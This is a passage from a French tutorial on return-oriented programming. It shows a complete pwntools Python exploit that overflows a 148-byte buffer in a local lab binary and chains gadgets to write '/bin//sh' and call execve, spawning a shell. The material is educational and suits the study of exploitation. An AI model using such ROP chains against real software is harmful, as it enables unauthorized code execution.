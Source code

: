 Rappelez-vous cependant que cette suite de gadgets, appelée **ropchain**, est initiée lors du retour de la fonction. Donc la première instruction de cette **ropchain** doit écraser la sauvegarde de `EIP` de la fonction appelante.

Nous avons vu en détails dans différents articles comment trouver la taille du buffer à allouer avant d'écraser la sauvegarde de `EIP`, et dans mon cas c'est un buffer de 148 octets. Ainsi, mon exploit ressemble à cela en python, en utilisant `pwntools`

```python
#coding: utf-8

from pwn import *
from struct import pack

r = process("./rop")

p = "A"*148

p += pack('<I', 0x0806ed1a) 	# pop edx ; ret
p += pack('<I', 0x080ea000) 	# Dans edx, nous mettons l'adresse du début de .data
p += pack('<I', 0x080b8056) 	# pop eax ; ret
p += '/bin'						# Dans eax, nous mettons la chaine de caractères "/bin"
p += pack('<I', 0x080546db) 	# mov dword ptr [edx], eax ; ret | Ce qui permet d'écrire "/bin" dans .data
p += pack('<I', 0x0806ed1a) 	# pop edx ; ret
p += pack('<I', 0x080ea004) 	# Dans edx, nous mettons l'adresse de .data + 4 pour prévoir "//sh"
p += pack('<I', 0x080b8056) 	# pop eax ; ret
p += '//sh'						# Nous mettons "//sh" dans eax
p += pack('<I', 0x080546db) 	# mov dword ptr [edx], eax ; ret | Et nous écrivons "//sh" juste après "/bin"
p += pack('<I', 0x0806ed1a) 	# pop edx ; ret
p += pack('<I', 0x080ea008) 	# Dans edx, nous mettons l'adresse de .data + 8, donc après la chaine de caractères "/bin//sh"
p += pack('<I', 0x08049323) 	# xor eax, eax ; ret
p += pack('<I', 0x080546db) 	# mov dword ptr [edx], eax ; ret | Et on s'assure que cet emplacement contient des 0x00 pour terminer la chaine de caractères
p += pack('<I', 0x080481c9) 	# pop ebx ; ret
p += pack('<I', 0x080ea000) 	# Dans ebx, nous mettons l'adresse du début de .data, qui contient "/bin//sh" suivi de null bytes
p += pack('<I', 0x080de7ad) 	# pop ecx ; ret
p += pack('<I', 0x00000000) 	# On met ecx à 0
p += pack('<I', 0x0806ed1a) 	# pop edx ; ret
p += pack('<I', 0x00000000) 	# On met edx à 0
p += pack('<I', 0x08049323) 	# xor eax, eax ; ret
for i in range(11):				# Afin d'avoir eax = 11, on boucle 11 fois
	p += pack('<I', 0x0804812c) # inc eax ; ret
p += pack('<I', 0x0806c985) 	# int 0x80

r.sendline(p)

r.interactive()
```
